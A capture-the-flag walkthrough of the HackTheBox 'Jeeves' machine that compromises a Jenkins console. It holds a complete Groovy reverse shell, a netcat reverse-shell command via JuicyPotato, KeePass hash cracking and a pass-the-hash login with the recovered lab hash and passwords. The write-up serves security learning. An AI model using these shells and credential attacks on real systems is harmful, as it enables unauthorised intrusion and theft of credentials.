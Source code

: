 # Jeeves

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Starting off with an Nmap scan, I found that ports 80,135,445 and 50000 were open.

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>



### Port 50000 Jetty 9.4.z-SNAPSHOT

Visiting the webpage, I was greeted by a Error 404 page.

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Next, I searched for subdomains using dirbuster with `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` wordlist. I found the `/askjeeves` subdirectory.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Heading to [http://10.10.10.63:50000/askjeeves/](http://10.10.10.63:50000/askjeeves/), it was a Jenkins management console. Going to `Manage Jenkins` --> Script console, I was able to upload the following groovy reverse shell.

```bash
String host="10.10.14.6";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I obtained a user shell

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Using the command `whoami /priv`, I was able to view that the `SeImpersonatePrivilege` is enabled which could allow for JuicyPotato attack.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Next, I transferred nc.exe over using SMB.

```bash
copy \\10.10.14.6\share\nc32.exe .
```

Afterwards, I ran the following command to obtain a root reverse shell

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

However, the JuicyPotato attack does not seem to work.

#### Futher Enumeration for Privilege Escalation

I found `CEH.kdbx` at `C:\Users\kohsuke\Documents`

After copying the file to the attacker machine, I used `keepass2john CEH.kdbx > keepass_hash` to extract a crackable hash from the Keepass Password Database.

Running `john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, I obtained the password as `moonshine1`

Using the password to view the password database, I found the following entries.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the following passwords

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```

The first password entry looks like a hash so I tried to using Pass-the-Hash method.

```bash
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.10.10.63 cmd.exe
```

I managed to login as the `administrator`.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Heading to `c:\users\administrator\desktop` for the root flag, I instead found `hm.txt`

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

This could indicate that the flag is present as an Alternate Data Stream. Using `dir /r`, I was able to view the streams present in the directory.&#x20;

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Viewing the flag using `more < hm.txt:root.txt`, I obtained the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
